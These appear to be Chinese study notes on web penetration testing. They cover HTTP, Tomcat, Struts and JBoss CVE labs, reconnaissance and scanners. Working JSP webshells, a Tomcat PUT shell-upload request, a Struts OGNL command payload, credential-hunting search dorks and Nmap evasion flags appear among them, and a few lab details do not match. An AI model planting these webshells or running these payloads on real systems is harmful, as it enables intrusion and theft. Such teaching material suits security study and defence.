# 网络安全知识汇总
## Web应用程序安全与风险
### Web攻击基础知识
- 什么是web应用攻击
  - web攻击的本质，就是通过http协议篡改应用程序
  - 重点：不要相信用户的输入
  - 可利用点：请求方法、请求头、数据体
  - 利用过程：认证、会话、授权
  - 利用途径：Web、客户端、html、其他协议 

- Web攻击的特点
  - 广泛性
  - 匿名性
  - 利用难度低(对比主机漏洞，木马病毒)

- 常见的Web安全薄弱点
  - 中间件：针对http底层服务软件的攻击，如IIS,Apache,nginx,tomcat
  - web应用：授权，认证，输入验证，程序逻辑，钓鱼等
  - 数据库：SQL注入
  - Web客户端：客户端软件漏洞，浏览器，App，小程序等
  - 传输：中间人攻击(会话劫持，DNS欺骗)，窃听等
  - 可用性：DDOS（分布式拒绝服务攻击，攻击目标是IP，即服务器），CC攻击（面向网页的攻击，短时间内大量的ip访问一个页面并使用其查询或一些其他功能，使得服务器CPU资源耗尽，典型的案例是春运买票）

- Web渗透测试学习框架（涵盖哪些方面？遵循什么流程？）
  - 信息收集
  ```
  挖淘宝的漏洞：https://www.taobao.com
  登录网站，挖漏洞：
  1. 端口
  2. 子站 abc.taobao.com; a.b.taobao.com
  3. 新业务
  4. 手机业务
  5. 微信小程序
  6. 友情链接
  7. 旁站
  ```
  - 漏洞攻防
  ```md
  SQL注入               针对数据库进行攻击
  XSS                   跨站脚本攻击
  CSRF                  跨站请求伪造（盗号），转账，发送虚假消息
  SSRF                  服务端请求伪造
  命令注入               类似SQL注入，针对操作系统
  目录穿越
  暴力破解
  文件读取               使用大量的../返回到根目录，从而访问指定的文件，主要针对linux系统
  文件上传
  文件包含
  XXE
  逻辑漏洞/业务漏洞
  中间件
  ```
  - 编程语言
  ```md
  PHP
  Python
  Java
  Javascript
  C/C++
  ```
  - 代码审计（白盒测试）
  - 应急响应
### Web应用程序技术
- HTTP协议
  - 定义：HTTP(Hyper Text Transfer Protocol)即超文本传输协议，是一种详细规定了浏览器和万维网服务器之间互相通信的规则，它是万维网交换信息的基础，它允许将HTML(超文本标记语言)文档从Web服务器传送到Web浏览器。
  - URL（统一资源定位符）也被称为网络地址，是互联网标准的地址。URL的标准格式如下
  ```md
  协议://服务器IP[:端口]/路径/[?查询]

  http协议  默认80端口
  https协议 默认443端口
  ```
  - 不借助浏览器，发起http请求
  <br>Linux中的curl命令
  ```shell
  Get 请求
  curl http://www.baidu.com

  Post 请求
  curl -d "user=admin&password=admin" http://www/baidu/com
  ```
  - hackbar V2
  ```md
  火狐浏览器插件

  ```
- http协议详解
  - HTTP是一种无状态的协议。无状态是指Web浏览器与Web服务器之间不需要建立持久的连接，这意味着当一个客户端向服务端发出请求（Request），然后Web服务器返回响应（Response），连接就被关闭了，在服务端不保留连接的有关信息。
  <br>也就是说，HTTP请求只能由客户端发起，而服务器不能主动向客户端发送数据。
  ```html
  POST /login.php HTTP/1.1      //请求行
  HOST: www.baidu.com           //请求头
  User-Agent: Mozilla/5.0（Windows NT 6.1; rv:15.0） Gecko/20100101 Firefox/15.0
  //空白行，代表请求头结束
  Username=admin&password=admin     //请求正文
  ```
  - 格式解析
    - 第一行：请求行，由三部分组成。第一部分说明了该请求方法是POST请求；第二部分是一个斜杠(/login.php)，用来说明请求的是该域名根目录下的login.php文件；第三部分即为http协议的版本。
    - 第二行至空白行：这部分称为HTTP中的请求头(也称消息头)
    <br>其中，HOST代表请求的主机地址，User-agent代表浏览器标识。<font color=tomato>请求头由客户端自行设定</font>。
    - 最后一行：请求正问，可选。最常出现在POST请求方法中，而GET请求的内容在请求行的路径中。
  - http响应
    - 响应也是由三部分组成：响应行，响应头，响应正文
    ```md
    HTTP/1.1 200 0K //响应行
    Date: Thu, 28 Feb 2013 07:36:47 GMT //响应头
    Server: BWS/1.0 //服务器信息
    Content-Length: 4199
    Content-Type: text/html;charset=utf-8 //提问：告诉谁的？
    Cache-Control: private
    Expires: Thu, 28 Feb 2021 07:36:47 GMT
    Content-Encoding: gzip
    Set-Cookie: H_PS_PSSID=2022_1438_1944_1788; path=/; domain=.baidu.com
    Connection: Keep-Alive
    //空白行，代表响应头结束
    <html> //响应正文或者叫消息主体
    <headxtitle> Index.html </title></head>

    什么情况下设置cookie值
    三种情况：
    1. 一般来说，登录之后设置cookie
    2. 第一次访问目标网站就设置cookie，且登录后cookie不更新（正常会更新），就会存在“会话固定攻击”
    会话固定攻击：攻击者通过攻击手段，提前设置好的cookie给到用户，并且登录后网站cookie不更新
    3. 第一次访问目标网站就设置cookie，且登陆后cookie更新或增加校验字段
    ```
- HTTP请求方法 
  - GET
  - HEAD
  - POST
  - PUT
    - PUT方法用于请求实体存储在服务器中，如果服务器已存在给资源，则覆盖。通常情况下，服务器会关闭PUT方法，因为他会为服务器建立文件，属于危险方法之一。
  - DELETE
    - 服务器一般会关闭此方法。用于请求服务器删除指定资源，因为客户端可以进行删除文件操作，属于危险方法之一
  - TRACE
    - TRACE方法可以回显整个请求中经过的节点，属于危险方法
  - OPTIONS
    - OPTIONS方法用于请求获取http协议中开启的请求方法

- HTTP状态码
```md
- 1xx：信息提示，表示请求已被成功接收，继续处理，范围为100~101
- 2xx：成功
- 3xx：重定向
- 4xx：客户端错误状态码
- 5xx：服务端错误状态码
```

- HTTP数据包
  - 响应数据包和请求数据包，统称HTTP数据包

- HTTP消息
  - 请求头：请求头只出现在HTTP请求中
    - HOST：HOST请求报头域主要用于指定被请求的资源的Internet主机和端口号
    ```
    HOST: www.baidu.com:8010
    ```
    - User-Agent:允许客户端将他的操作系统，浏览器和其他属性告诉服务器
    ```
    User-Agent: My privacy
    ```
    - Referer:包含一个URL，代表当前访问URL的上一个URL，也就是说，用户是从什么地方来到本页面的
    ```
    Referer: www.baidu.com/login.php

    代表用户从login.php来到当前页面
    ```
    - cookie:标识用户身份
    - X-forward-for：即XXF头，代表请求端的IP
    - Accept:指定客户端接收哪些MIME类型的消息
    ```
    Accept: text/html
    // 表明用户端希望接收HTML文本
    ```
    Accept-charset：指定希望接收的编码方式

  - 响应头
    - Server：服务器所使用的web服务器名称
    ```
    Server: Apache/1.3.6(Unix)
    // 攻击者通过查看此头，可以探测Web服务器名称，所以，建议服务端修改此信息
    ```
    - Set-Cookie：向客户端设置Cookie
    - Last-Modified：告诉浏览器，资源的最后修改时间
    - Location：告诉浏览器取访问哪个页面，浏览器接收到后，会立即访问Location头所指向的页面，通常配合302状态码使用
    - Refresh：告诉浏览器定时刷新

  - 普通头（请求头和响应头的一些信息）：略
  - 实体头：略

- HTTP协议和HTTPS协议的区别
  - HTTPS是以安全为目标的HTTP通道，比单纯的HTTP协议更安全
  - HTTPS的安全基础是SSL，即在HTTP下加入SSL层。也就是HPPTS通过安全传输机制进行数据传送，这种机制可保护网路传送的所有数据的隐秘性和完整性，可以降低非侵入性拦截攻击的可能性。
  - 主要区别
    - HTTP是超文本传输协议，信息是明文传输；HTTPS是具有安全性的SSL加密传输协议
    - HTTP和HTTPS协议使用的是完全不同的连接方式，HTTP采用80端口连接，HTTPS则是443端口
    - HTTPS协议需要ca申请证书

- Web应用程序编码
  - URL编码
    - 特征：%后面跟两个16进制数
    ```
    %3d -> =
    %25 -> %
    %00 -> 空字节
    ```
  - Unicode编码
    - 特征：%u为前缀
    ```
    %u2215 -> /
    ```
  - HTML编码
  - Base64编码
    - 特征：由大写字母，小写字母，数字，+/,共64个字符组合的编码，常用于对电子邮件进行编码，或对基本HTTP验证机制中的用户证书进行编码。
  - 16进制编码
    - 用ASCLL字符标识16进制数据块

## 攻防环境搭建
- 专业名词介绍
  - POC：一段漏洞证明的代码（无害）
  - EXP：exploit的缩写，一般指得是可利用系统漏洞进行攻击得动作程序（有害）
  - payload：有效载荷，攻击成功以后，攻击程序释放得具有攻击能力的，能实现攻击者目的的代码
  - RCE：远程命令执行
- DVMA
  - 安装 
  ```
  docker pull saqikazarmark/dvwa
  docker run -d -p 8080:80 -p 33060:3303 saqikazarmark/dvwa
  ```
  - DVMA是什么？
    - DVWA（Damn Vulnerable Web Application）是一个安全的教育平台，用于教授和测试Web应用程序安全性。DVWA是为了教育和测试目的而设计的，可以用于合法地学习和测试Web应用程序的常见漏洞和安全问题
  - 主要特性
    - 多种安全级别：提供了不同的安全级别，允许用户从最基础的开始，逐步深入
    - 多种漏洞：包括SQL注入、XSS（跨站脚本）、CSRF（跨站请求伪造）等多种常见的Web安全漏洞。

### Tomcat（中间件漏洞）
- Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）
- Tocat版本：7.0.0-7.0.79、8.5.19
```
docker search CVE-2017-12615
docker pull cved/cve-2017-12615
```
- 漏洞的POC
```jsp
<%
if("geektime".equals(request.getParameter("pwd"))){
java.io.InputStream in =
Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>

// 上述代码的关键部分：
if("geektime".equals(request.getParameter("pwd")))
// 将密码pwd用geektime指代
exec(request.getParameter("i")).getInputStream();
// 用参数i接收用户的输入，执行用户的输入内容
```
- 直接发送一下数据包即可在Web根目录写入shell
```http
PUT /test.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64;
Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```
- 利用shell执行命令（web shell）
  


- 代码执行工具 - Brup suite
  - 工作原理： 客户端向服务端发送请求，服务端收到请求后给出响应，在这个通信过程中，设置一个中间人(程序)，介入双方的通信，这个中间人就是Brup suite
  - 使用方法

- 漏洞原理：
  - 漏洞1：漏洞本质是 Tomcat 的 web.xml 配置了可写（写=上传）（readonly=false），导致我们可以往服务器写（PUT）文件：
  ```xml
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>   #代码出问题的地方readonly=falus
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
  ```
  - 漏洞2：tomcat本身不允许上传 jsp 文件，1.jsp/ 加了 / 就不是 jsp 文件，系统保存文件 1.jsp/ --> 1.jsp
  <br>tomcat对jsp是做了一定处理的。前面的流程中 1.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。
- tip 对站点进行漏洞查找的流程:
  - 梳理互联网暴露面（尽量减少对外入口）
  - 扫描。分别从应用层面和主机层面去扫描站存在的漏洞
  - 手工验证漏洞
  - 检查网站的安全配置（基线配置核查）、代码审计
- webshell利用工具2 —— 蚁剑
  - 蚁剑：webshell图形化利用工具
  ```
    https://github.com/AntSwordProject/antSword
    https://www.yuque.com/antswordproject/antsword/srruro
  ```
    - yijian_shell.jsp
  ```jsp
    <%!
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer",
    String.class).invoke(clazz.newInstance(), str);
            } catch (Exception e) {
                Class clazz = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode",
    String.class).invoke(decoder, str);
            }
        }
    %>
    <%
        String cls = request.getParameter("passwd");
        if (cls != null) {
            new
    U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
    %>

  ```
- 总计（漏洞利用成功）：
  - 能上传脚本
  - 1.jsp/得以以.jps的后缀名保存在服务器中
- 解决方案：
  - 修复web.xml关于readonly=false的可写命令，改为只读
  - 网站使用白名单校验机制
### Struts 框架漏洞

- 漏洞介绍：
  - S2-048 远程代码执行漏洞（CVE-2017-9791）
  - 影响版本: 2.0.0 - 2.3.32
- 漏洞原理：Apache Struts 1插件的 Apache Struts 2.3.x 版本中存在远程代码执行漏洞，该漏洞出现于Struts2的某个类中，该类是为了将Struts1中的Action包装成为Struts2中的Action，造成了Struts2中的Struts1插件启用的情况下，远程攻击者可通过使用恶意字段值，构造特定的输入，发送到ActionMessage类中，从而导致任意命令执行，进而获取目标主机系统权限。漏洞成因是当ActionMessage接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行。

- 漏洞测试 
    ```
    docker search s2-048
    docker pull docker.io/piesecurity/apache-struts2-cve-2017-5638
    ```
  - 这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问
  http://your-ip:8081/showcase/ 即可查看到struts2的测试页面。

    

  - 触发OGNL表达式的位置是 Gangster Name 这个表单。
  - 输入 ${200*200} 即可查看执行结果（剩下两个表单随意填写）：

    

  - poc
  ```java
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?
  (#_memberAccess=#dm):
  ((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
  (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
  (#ognlUtil.getExcludedPackageNames().clear()).
  (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).
  (#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec
  ('id').getInputStream())).(#q)}
  #id 返回当前用户的信息
  ```
  

- 漏洞触发点：org.apache.struts2.s1.Struts1Action.execute() 方法中
  
  

  - 参考链接：https://www.cnblogs.com/Zhujianshi/p/7146396.html


### JBoss 反序列化漏洞
- 漏洞介绍1：JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）
```
docker search CVE-2017-12149
docker pull docker.io/hackingpub/cve-2017-12149

# 首次执行时会有1~3分钟时间初始化，初始化完成后访问 http://your-ip:8080/ 即可看到JBoss默认页面。
```
- 漏洞介绍2：该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。<font color=tomato>该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化</font>(出问题的点)，从而导致了攻击者可以在服务器上执行任意代码。

- 漏洞版本：漏洞影响5.x和6.x版本的JBoss。

- 漏洞原理：JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用。
```
Java序列化：把Java对象转换为字节序列的过程。
Java反序列化：指把字节序列恢复为Java对象的过程。
Java序列化与反序列化作用：便于保存数据，或者进行数据传输。
```
- 漏洞出现在 Jboss 的 HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，源码在
jboss\server\all\deploy\httpha-invoker.sar\invoker.war\WEB-INF\classes\org\jboss\invocation\http\servlet目录下的ReadOnlyAccessFilter.class文件中，其中
doFilter函数代码如下
```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
    throws IOException, ServletException
{
    HttpServletRequest httpRequest = (HttpServletRequest)request;
    Principal user = httpRequest.getUserPrincipal();
    if ((user == null) && (this.readOnlyContext != null))
    {
      ServletInputStream sis = request.getInputStream();
      ObjectInputStream ois = new ObjectInputStream(sis);
      MarshalledInvocation mi = null;
      try
      {
      mi = (MarshalledInvocation)ois.readObject(); //漏洞点
      }
      catch (ClassNotFoundException e)
      {
      throw new ServletException("Failed to read MarshalledInvocation", e);
      }
      request.setAttribute("MarshalledInvocation", mi);
mi.setMethodMap(this.namingMethodMap);
Method m = mi.getMethod();
if (m != null) {
    validateAccess(m, mi);
  }
}
chain.doFilter(request, response);
}
```

- 通过java反序列化工具进行攻击

## 信息收集
- Whois信息
  - 站长之家：http://whois.chinaz.com
    - 域名对应的邮箱；
    - 该邮箱注册的所有域名
    - 企业CEO名称注册的域名
    - SRC：安全应急响应中心(漏洞、情报)http://security.alibaba.com
  - 主要目的查询域名对应的联系方式和联系人，通过反查联系方式和联系人，试图找到其他域名

- 企业信息
  - 企查查：https://www.qichacha.com
  - 天眼查：https://www.tianyancha.com
  - 查询目标：企业联系方式/联系人，通过这些信息去的查询企业旗下注册的域名

- 域名信息（域名&子域名）
  - 一级域名: example.com
  - 二级域名: www.example.com
  - 三级域名: www.hack.example.com
  - 查询子域名信息目的：查找企业边缘业务ip
  - 查询方式：
    - OneForAll:http://github.com/shmilylty/OneForAll
    - ksubdomain：https://github.com/knownsec/ksubdomain
    - subDomainsBrute：https://github.com/lijiejie/subDomainsBrute
    - Sublist3r：https://github.com/aboul3la/Sublist3r
    - RappidDns：https://rapiddns.io/subdomain (在线)
    - 查子域：https://chaziyu.com/ (在线)
    - 子域名挖掘机

- 旁站信息（同IP网站）
  - 简介：一个服务器可以起多个web服务，开不同的端口即可，相当于一个ip映射给多个域名
  - 查询方式：
    - 在线：http://stool.chinaz.com/same
    - 在线：https://site.ip138.com
  - 旁站查询涉及到CDN问题，所以为了查询到准确的旁站信息，需要找到目标真实IP

- 真实IP
  - 判断真实IP：使用全球ping，在全国/全球各地去ping该网址，观察IP是否一致
  - 工具：
    - 全球ping：http://tool.zhiduopc.com/ping
    - DNS检测：https://tools.ipip.net/dns.php
    - Xcdn：https://github.com/3xp10it/xcdn
    - 在线：https://ipchaxun.com/
    - Ping.cn：https://www.ping.cn/dns/
    - ping.chinaz.com(推荐)
  - 方法：如果从主站ping，得不到真是ip，可以尝试从边缘业务的二级域名去尝试获取真实ip

- 端口+子目录
  - 工具
    - Nmap：https://nmap.org
      - 介绍：Nmap (“Network Mapper<网络映射器>”) 是一款开放源代码的网络探测和安全审核的工具。它的设计
        目标是快速扫描大型网络，当然用它扫描单个主机也没有问题。Nmap以新颖的方式使用原始IP报文来
        发现网络上有哪些主机，这些主机提供什么服务(应用程序名和版本)，这些服务运行在什么操作系统(包
        括版本信息)， 它们使用什么类型的报文过滤器/防火墙，以及一堆其它功能。虽然Nmap通常用于安全
        审核，许多系统管理员和网络管理员也用它来做一些日常的工作，比如查看整个网络的信息， 管理服务
        升级计划，以及监视主机和服务的运行。
      - 一个典型的Nmap扫描
      ```shell
      nmap -A -T4 scanme.nmap.org
      # 选项 -A ， 用来进行操作系统及其版本的探测;   # -T4 可以加快执行速度，接着是目标主机名。
      ```
      ```
      # nmap -A -T4 scanme.nmap.org
        Nmap scan report for scanme.nmap.org (45.33.32.156)
        Host is up (0.16s latency).
        Other addresses for scanme.nmap.org (not scanned): 45.33.32.156
        Not shown: 985 closed tcp ports (reset)
        PORT STATE SERVICE VERSION
        9/tcp filtered discard
        22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu
        Linux; protocol 2.0)
        | ssh-hostkey:
        | 256 96:02:bb:5e:57:54:1c:4e:45:2f:56:4c:4a:24:b2:57 (ECDSA)
        |_ 256 33:fa:91:0f:e0:e1:7b:1f:6d:05:a2:b0:f1:54:41:56 (ED25519)
        42/tcp filtered nameserver
        80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
        |_http-title: Go ahead and ScanMe!
        |_http-favicon: Nmap Project
        |_http-server-header: Apache/2.4.7 (Ubuntu)
        135/tcp filtered msrpc
        139/tcp filtered netbios-ssn

      ```
      - 目标说明：
        - 使用CIDR风格，如192.168.10.0/24，将会扫描c端256台主机
        - 也支持自定义ip地址范围的风格：192.168.0-255.1-254
        - Nmap命令行接受多个主机说明，它们不必是相同类型，如：nmap scanme.nmap.org 192.168.0.0/8
        10.0.0.1。中间用空格隔开。
        - -iL（从列表输入）
        <br>从 中读取目标说明。在命令行输入一堆主机名显得很笨拙，然而经常需要这样。 例如，您的DHCP服务器可能导出10,000个当前租约的列表，而您希望对它们进行扫描。如果您不是使用未授权的静态IP来定位主机，或许您想要扫描所有IP地址。 只要生成要扫描的主机的列表，用-iL 把文件名作为选项传给Nmap。列表中的项可以是Nmap在命令行上接受的任何格式(IP地址，主机名，CIDR，IPv6，或者八位字节范围)。 每一项必须以一个或多个空格，制表符或换行符分开。 如果您希望Nmap从标准输入而不是实际文件读取列表， 您可以用一个连字符(-)作为文件名。
        - iR（随机选择目标）
        <br>对于互联网范围内的调查和研究， 您也许想随机地选择目标。 选项告诉 Nmap生成多少个IP。不合需要的IP如特定的私有，组播或者未分配的地址自动略过。选项 0 意味着永无休止的扫描。记住，一些网管对于未授权的扫描可能会很感冒并加以抱怨。 使用该选项的后果自负! 如果在某个雨天的下午，您觉得实在无聊， 试试这个命令nmap -sS -PS80 -iR 0 -p 80随机地找一些网站浏览。
        - --exclude <host1,host2,host3，...> (排除主机/网络)
        <br>如果在指定的扫描范围有一些主机或网络不是想要扫描的目标， 那就用该选项加上以逗号分隔的列表排除它们。该列表用正常的Nmap语法， 因此它可以包括主机名，CIDR，八位字节范围等等。当希望扫描的网络包含执行关键任务的服务器，已知的对端口扫描反应强烈的系统或者被其他人看
        - --excludefile (排除文件中的列表)
        <br>这和--exclude 选项的功能一样，只是所排除的目标是用以换行符，空格，或者制表符分隔的列表/文件提供的，而不是在命令行上输入的。
        管的子网时，这也许有用。
      - 主机发现 
        - -sL（列表扫描）
        <br>扫描网段内的ip，并返回对应的域名信息
        - -sP（ping扫描）
        <br>查询扫描范围内，存活的主机（但是会遗漏一些禁ping主机）
        - -P0（无ping）
        <br>正常来说，nmap会先ping指定范围内的主机，根据主机的响应情况去发送一些探测端口或者操作系统的探测包，但这样会遗漏禁ping的机器；使用P0则会给指定范围的所有主机发送探测包，而不先一步进行响应判断，防止遗漏禁ping设备

      - 端口扫描基础
        - 端口状态 （Nmap所识别的6个端口状态）: open(开放的)，closed(关闭的)，filtered(被过滤的)， unfiltered(未被过滤的)， open|filtered(开放或者被过滤的)，或者 closed|filtered(关闭或者被过滤的)。
        - 这些状态并非端口本身的性质，而是描述Nmap怎样看待它们。例如，对于同样的目标机器的135/tcp端口，从同网络扫描显示它是开放的，而跨网络进行完全相同的扫描则可能显示它是filtered(被过滤的)。
        - open(开放的)
        <br>应用程序正在该端口接收TCP连接或者UDP报文。发现这一点常常是端口扫描的主要目标。
        <br>安全意识强的人们知道每个开放的端口都是攻击的入口。攻击者或者入侵测试者想要发现开放的端口。 
        <br>而管理员则试图关闭它们或者用防火墙保护它们以免妨碍了合法用户。 
        <br>非安全扫描可能对开放的端口也感兴趣，因为它们显示了网络上那些服务可供使用。
        - closed(关闭的)
        <br>端口对外开放，但是上面没有承载服务
        <br>它们可以显示该IP地址上(主机发现，或者ping扫描)的主机正在运行，也对部分操作系统探测有所帮助
        <br>因为关闭的关口是可访问的，也许过会儿值得再扫描一下，可能一些又开放了。
        <br>系统管理员可能会考虑用防火墙封锁这样的端口，那样的话就会被显示为被过滤的状态
        - filtered(被过滤的)
        <br>数据包被阻止了，可能是一些安全防护设备导致的
      - 端口扫描常用参数
        - -sS（TCP SYN扫描）
        <br>SYN扫描作为默认的也是最受欢迎的扫描选项，是有充分理由的。它执行得很快，在一个没有入侵防火墙的快速网络上，每秒钟可以扫描数千个端口。SYN扫描相对来说不张扬，不易被注意到，因为它从来不完成TCP连接。
        - -sT(TCP connect()扫描)
        - -sU(UDP扫描)
      - 端口说明和扫描顺序
        - -p (只扫描指定的端口)
        <br>指明想扫描的端口，覆盖默认值
        <br>单个端口和连字符表示的端口范围(1-1024)
        <br>当扫描TCP又扫描UDP的时候，可以在端口号前加T：或者U：指定协议，协议限定符一致有效直到指定另一个。例如：参数 -p U:53,111,137,T:21-25,80,8080
        <br>注意：当既要扫描UDP又要扫描TCP的时候，必须指定-sU以及至少一个TCP扫描类型（如：-sS,-sF或者-sF）
        - -F（快速（有限的端口）扫描）
        - -r （不要按随意顺序端口扫描 ）
      - 服务和版本探测
        - -sV（版本探测）
        - -A：同时打开操作系统探测和版本探测
        - --allports(不为版本探测排除任何端口)
      - 操作系统探测
        - -O（启用操作系统检测）
        - -A：同时打开操作系统探测和版本探测
      - 时间和性能
        - T0到T5
        - 从0到5，0扫描最快，5最慢
        - T0和T1通常用于躲避IDS防护设备
      - 防火墙/IDS躲避
        - -f(报文分段)；-mtu(使用指定的MTU)
        - -S\<ip_adrress>(源地址欺骗)
        - --source-port\<portnumber>;-g<portnumber>(源端口欺骗)
        - --date-length\<number>(发送报文时附加随机数据)
      - 输出（用的不多）
        - -oN\<filespec>(标准输出)
        - -oX\<filespec>(XML输出)
      - 细节和调试选项
        - -v（提高输出信息的详细度）
        - -d ：跟在-v后面可以提高详细度的级别，最高是-d9，会有上千行信息
      - 其他选项
        - -6（启用IPV6扫描）
  
    - masscan：https://github.com/robertdavidgraham/masscan
    - Goby：https://gobies.org/(无需安装，下载直接使用)
    - 御剑：https://github.com/foryujian/yujianportscan（扫描目录）
      - 原理：枚举爆破
  
- 敏感信息
  - GoogleHack语法
    - 后台地址
      - site:xxx.com 管理后台/登录/管理员/系统，可以通过添加双引号增加精确度
      - site:xxx.com inurl:login/admin/system/manage
    - 敏感文件
      - site:xxx.com filetype:pdf/doc/xls/txt
      - site:xxx.com filetype:log/sql/conf
    - 测试环境
      - site:xxx.com inurl:test/ceshi
      - site:xxx.com intitle:后台/测试
    - 邮箱/QQ/群
      - site:xxx.com 邮件/email
      - site:xxx.com qq/群/企鹅/腾讯
      - site:xxx.com intitle:"Outlook Web App" 邮件服务器的web界面
      - site:xxx.com intitle:"mail"
      - site:xxx.com intitle:"webmail"
    - 其他
      - site:xxx.com inurl:api
      - site:xxx.com inurl:uid=/id=
      - site:xxx.com intitle:index.of "server at

- Github
  - @xxx.com password/secret/credentials/token/config/pass/login/ftp/ssh/pwd
  - @xxx.com security_credentials/connetionstring/JDBC/ssh2_auth_password/send_keys

- 网盘引擎
  - 盘搜搜：http://www.pansoso.org
  - 盘多多：http://www.panduoduo.top/
  - 大力盘：https://dalipan.com/

- 空间搜索引擎
  - FOFA：https://fofa.info/ 之前被禁用，目前已恢复，但是功能阉割严重
  - Quake：https://quake.360.cn/quake/#/index
  - ZoomEye：https://www.zoomeye.org/
  - Shadon：https://www.shodan.io
    - 基础语法：https://blog.csdn.net/Vdieoo/article/details/109622838
  
- 历史漏洞
  - CNVD：https://www.cnvd.org.cn/
  - CNNVD：http://www.cnnvd.org.cn
  - Seebug：https://www.seebug.org
  - Exploit Database：https://www.exploit-db.com
  - https://sploitus.com/


## 扫描工具
### AWVS（应用漏洞扫描器）安装及使用
- 使用docker安装
  - `docker pull dockermi3aka/awvs`
- 启动镜像
  - `docker run -dit -p 3443:3443 dockermi3aka/awvs`
- 访问地址；
  - `https://YOUR_IP:3443/`
  - 注意：是https://，这个不能漏
- 登录用户名密码
  ```
  用户名：admin@admin.com
  密码：Admin123
  AWVS版本: 14.7.220425114
  ```
- 扫描器原理：
  - 扫描器通过发送（扫描探测包）http请求，进行扫描的探测，然后根据服务端的回显判断是否存在漏洞

- AWVS的缺点：
  - 容易被（安全防护设备）发现
- 应用场景
  - 更适合做自查

### Xray安装及使用
- 介绍：Xray是一款半开源的功能强大的安全评估工具，支持主动扫描和被动扫描
- 主动扫描的工作过程
  - 点击扫描后，最开始会有个爬虫去爬取网站的目录结构
  - 爬取网站的目录结构之后，去各个页面寻找功能点或参数
  - 通过发送测试的数据包到目标站点，根据服务端回显判断网站是否存在漏洞
- 主动扫描
  - 缺点
    - 容易被拦截
    - xray的基础爬虫不能处理js渲染的页面
  - 启动扫描
  ```shell
  .\xray_windows_amd64 webscan --basic-crawler http://testphp.vulnweb.com/ --html-output xray-crawler-testphp.html
  ```
  - 指令解析：
    - .\xray_windows_amd64    启动xray扫描器
    - webscan    进行web扫描
    - --basic-crawler    基础爬虫扫描
    - http://testphp.vulnweb.com/    选择要爬取的网址
    - --html-output    以html格式输出，生成报告
    - xray-crawler-testphp.html    自定义的报告名称

- 被动扫描（重点）：
  - 被动扫描（代理模式）原理：
    - 代理模式下的基础架构为，扫描器作为中间人，首先原样转发流量，并返回服务器响应给浏览器等客户端，通讯两端都认为自己直接与对方对话，同时记录该流量，然后修改参数并重新发送请求进行扫描
  - 安装：需要证书
  - 安装证书：
    - 执行指令：`.\xray_windows_amd64.exe genca`
    - 下载ca证书后进行安装
      - 火狐浏览器安装
        - 设置 -> 安全与隐私 -> 证书 -> 导入证书 ->勾选信任该证书的网站 -> 确定
      - 本地安装
  - 开启xray被动扫描
  ```shell
  .\xray_windows_amd64.exe webscan --listen 127.0.0.1:7777 --html-output xray-wanhao_report.html
  ```
  - 指令详解；
    - .\xray_windows_amd64.exe    启动扫描器
    - webscan    进行web扫描
    - --listen 127.0.0.1:7777     监听本地7777端口
    - --html-output    以html格式输出，生成报告
    - xray-testphp.html   自定义报告名称

  - 开启端口监听后，在浏览器端设置代理
  - 优点：
    - 在一定程度上，绕过安全防护设备/策略进行扫描

- X-scan 应用&&主机漏洞扫描器
  - 很老的一款扫描器，不建议在本地安装，建议在虚拟机使用
  - 使用场景：
    - 一般用于很老的操作系统版本的电脑，因为不支持新版的扫描器，而只能使用这款扫描器的情况下使用

- AppScan 应用漏洞扫描器
  - 介绍：AppScan on Cloud（ASoC）是一种SaaS解决方案（Software-as-a-service 软件即服务），可满足所有应用程序安全测试需求。
  - 扫描模式（四种）
    - 动态分析(DAST) 黑盒扫描 主动扫描
      - appscan的动态分析会要求“域验证”
    - 静态分析(SAST) 白盒扫描 自动化代码审计
    - 交互式分析(IAST)
      - 适用于java，相当于在java程序运行过程中加载了一个额外的jar包
      - 缺点：
        - 不安全
        - 影响性能
        - 应用很少
    - 开源分析 

- 扩展：市面上免费的自动化代码审计软件
  - checkmark
  - fortify
  - Xcheck 腾讯的商业软件

### Nessus-主机漏洞扫描
